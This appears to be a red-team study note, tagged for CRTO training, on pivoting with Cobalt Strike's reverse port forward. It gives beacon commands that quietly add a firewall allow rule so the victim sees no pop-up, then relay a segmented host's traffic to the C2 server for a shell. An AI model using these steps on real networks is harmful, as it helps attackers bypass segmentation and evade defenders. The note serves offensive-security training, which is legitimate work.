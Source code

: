 
Reverse Port Forwarding allows a machine to redirect inbound traffic on a specific port to another IP and port.

A useful implementation of this allows machines to bypass firewall and other network segmentation restrictions, to talk to nodes they wouldn't normally be able to.

## 🖊️ via [[Cobalt Strike]]

We may want to use a pwned machine (that talks to our C2) as an intermediary to reach a machine that does not talk to the C2. We can use Reverse Port Forwards.

1) You create an allow rule **before** running a reverse port forward using either `netsh` or `New-NetFirewallRule`, as adding and removing rules does not create a visible alert. Otherwise the victim will get a pop-up when we try to open this port.

`beacon> powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080`


2) Then we can create a reverse port forward to relay traffic between the remote box and our team server.

```
beacon> rportfwd 8080 127.0.0.1 80
[+] started reverse port forward on 8080 to 127.0.0.1:80
```

Syntax:
```
	8080 - port that will be opened in the intermediary box
	 127.0.0.1 - C2 IP
	 80 - C2 listener port
```

Now the remote box can have access to our C2. You could also try to run a payload in the remote box to obtain a shell via this channel.
 

### ⚠ Opsec




### Properties
---
📆 created   {{17-02-2024}} 19:11
🏷️ tags: #redteam #crto 

---

